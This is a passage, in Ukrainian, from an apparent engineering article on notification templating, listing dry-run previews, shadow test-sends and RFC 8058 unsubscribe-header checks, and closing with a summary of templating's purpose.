2. **Режим симуляції доставки (Dry-Run / Preview Mode):** Оператор у режимі реального часу бачить, як виглядатиме лист у десктопному та мобільному варіантах, який обсяг займе Push-повідомлення в APNs JSON та скільки платних сегментів згенерує SMS.
3. **Тіньове тестування (Shadow Test-Send):** Можливість відправити реальний комплект сповіщень на поштові скриньки та тестові смартфони інженерної команди без зміни стану реальних користувачів.
4. **Автоматична перевірка поштових стандартів (RFC 8058):** Контроль обов'язкової присутності заголовків `List-Unsubscribe` та `List-Unsubscribe-Post: List-Unsubscribe=One-Click` для запобігання потраплянню листів у папку зі спамом.

---

Шаблонізація сповіщень — це не проста конкатенація рядків, а повноцінний розподілений компілятор на межі між внутрішніми бізнес-подіями системи та зовнішнім світом людини. Вона ізолює бізнес-логіку від граматики мов, захищає інфраструктуру від вразливостей виконання коду та гарантує, що повідомлення будь-яким цифровим каналом дійде до користувача у правильному форматі, з точним часом і без спотворення сенсу.
